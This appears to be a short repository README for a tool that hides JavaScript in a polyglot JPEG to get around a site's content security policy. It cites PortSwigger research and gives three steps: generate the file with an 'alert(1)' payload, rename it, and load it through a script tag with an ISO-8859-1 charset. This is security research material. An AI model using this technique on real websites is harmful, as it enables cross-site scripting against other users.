 # XSS_JPEG
### create XSS JPEG file and Trigger XSS

1. python3 xss_jpeg.py "alert(1)"
2. mv xss.jpeg xss.txt // Content-Type image/jpeg -> text/plain
3. <script charset="ISO-8859-1" src="xss.txt">

reference: https://portswigger.net/research/bypassing-csp-using-polyglot-jpegs
